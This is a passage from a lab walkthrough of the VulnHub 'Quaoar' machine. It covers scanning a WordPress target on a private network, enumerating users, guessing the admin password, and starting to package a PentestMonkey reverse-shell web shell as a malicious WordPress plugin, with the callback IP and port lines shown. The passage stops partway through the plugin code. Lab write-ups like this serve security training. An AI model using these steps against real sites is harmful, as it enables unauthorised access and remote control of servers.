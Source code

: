 Uniscan:

```
| Directory check:
| [+] CODE: 200 URL: http://192.168.56.101/wordpress/
| [+] CODE: 200 URL: http://192.168.56.101/upload/
|
| File check:
| [+] CODE: 200 URL: http://192.168.56.101/index.html
| [+] CODE: 200 URL: http://192.168.56.101/robots.txt
|
| Check robots.txt:
| [+] Disallow: Hackers
| [+] Allow: /wordpress/
| [+]    ____
| [+] #  /___ \_   _  __ _  ___   __ _ _ __
| [+] # //  / / | | |/ _` |/ _ \ / _` | '__|
| [+] #/ \_/ /| |_| | (_| | (_) | (_| | |
| [+] #\___,_\ \__,_|\__,_|\___/ \__,_|_|
| [+]
|
| Check sitemap.xml:
```
The above output only comprises of the useful details, I would recommend using tools like Nikto and Dirb for a better scan of web applications.
However, we can see `robots.txt` has an entry regarding `/wordpress/`.
With this in mind, I can also make the assumption that directories like `/wp-content/` and `/wp-login/` are present.

Now I can be sure that WordPress is running on the target, I can use WPscan to grab more specific info. I didn't have to look into the vulnerable plugins that were mentioned in the output, so I decided to omit them from this walkthrough. WPscan enumerated the users for me:
```
+----+--------+--------+
| Id | Login  | Name   |
+----+--------+--------+
| 1  | admin  | admin  |
| 2  | wpuser | wpuser |
+----+--------+--------+
```

So now I know that 'admin' exists, I might as well guess a few passwords.
Turns out the admin password was **admin**...

### Shelling the system using a malicious Wordpress plugin

Now from past experience with having to pop shells on WordPress sites, I decided to get on with it and make a dummy plugin. 
Here's how to do that:
 1. Either create or use a web shell - I generally use [PentestMonkey's PHP Shell] or the [b374k shell].
 2. Afterwards, you have to edit the code to fit your local host and local port. For example, if you were to use PentestMonkey's shell:
 ```
 $ip = '192.168.56.1';  // CHANGE THIS
 $port = 1337;       // CHANGE THIS
 ```
 3. Format the PHP code to fit the requirements for WP Plugins - After looking at the [WP Plugin Handbook], it seems that plugins need a header in-order for it to successfully install. After making the edits, this was the final code:
 ```php
 <?php
/*
Plugin Name: WordPress.org Plugin
Plugin URI:  https://developer.wordpress.org/plugins/the-basics/
Description: Basic WordPress Plugin Header Comment
 ```

[VulnHub URL]: <https://www.vulnhub.com/entry/hackfest2016-quaoar,180/>
[PentestMonkey's PHP Shell]: <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>
[b374k shell]: <https://github.com/kieran-walker-0/b374k>
[WP Plugin Handbook]: <https://developer.wordpress.org/plugins/the-basics/header-requirements/>